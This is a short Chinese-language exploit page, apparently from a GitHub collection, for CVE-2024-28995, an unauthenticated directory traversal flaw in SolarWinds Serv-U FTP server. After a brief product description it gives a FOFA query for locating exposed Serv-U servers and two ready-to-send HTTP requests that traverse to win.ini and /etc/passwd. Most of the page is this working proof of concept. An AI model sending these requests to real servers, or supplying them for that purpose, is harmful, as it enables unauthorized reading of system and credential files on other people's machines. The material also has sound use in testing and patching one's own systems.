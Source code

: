 ## SolarWinds-Serv-U目录遍历漏洞(CVE-2024-28995)

SolarWinds 是一家提供广泛的 IT 管理和网络管理软件解决方案的公司,SolarWinds 的产品被设计用于监控和管理网络设备、服务器、应用程序和网络流量等,Serv-U 是 SolarWinds 提供的一款 FTP（文件传输协议）服务器软件，它允许用户在 Windows 、Linux 系统上设置和管理 FTP 服务,Serv-U 提供了多种功能，以确保文件传输的安全性、效率和灵活性。

CVE-2024-28995 SolarWinds Serv-U FTP目录遍历文件读取漏洞，攻击者无需登陆即可构造恶意请求读取系统上文件，造成敏感信息泄漏。

## fofa

```
server="Serv-U"
```

## poc

```
GET /?InternalDir=/../../../../windows&InternalFile=win.ini HTTP/1.1
Host: xx.xxx.xxx.xxx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```

```
GET /?InternalDir=\..\..\..\..\etc&InternalFile=passwd HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

![image-20240614211748043](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406142117114.png)